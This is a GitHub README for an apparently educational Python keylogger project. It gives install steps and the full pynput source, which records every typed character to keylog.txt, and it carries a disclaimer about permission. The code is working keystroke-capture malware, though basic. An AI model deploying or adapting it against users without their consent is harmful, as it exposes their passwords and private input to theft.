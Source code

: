 # Simple Keylogger

This project demonstrates a basic keylogger program that records and logs keystrokes. The keylogger captures the keys pressed by the user and saves them to a file named `keylog.txt`.

**Important Note**: This keylogger is intended for educational purposes only. Always ensure you have explicit permission to log keystrokes on any system you use this code on. Unauthorized use of keyloggers can be illegal and unethical.

## Features

- Logs all keystrokes pressed by the user.
- Saves the logged keystrokes to a file named `keylog.txt`.

## Prerequisites

- Python 3.x
- `pynput` library

## Installation

1. Clone this repository to your local machine:

    ```sh
    git clone https://github.com/oraclebrain/PRODIGY_CS_04.git
    ```

2. Navigate to the project directory:

    ```sh
    cd PRODIGY_CS_04
    ```

3. Install the required dependencies:

    ```sh
    pip install pynput
    ```

## Usage

1. Run the keylogger script:

    ```sh
    python keylogger.py
    ```

2. The script will start logging keystrokes and save them to `keylog.txt`.

## Code Overview

```python
from pynput import keyboard

def keyPressed(key):
    print(str(key))
    with open("keylog.txt", 'a') as logkey:
        try:
            char = key.char
            logkey.write(char)
        except:
            print("Error getting char")

if __name__ == "__main__":
    listener = keyboard.Listener(on_press=keyPressed)
    listener.start()
    input()
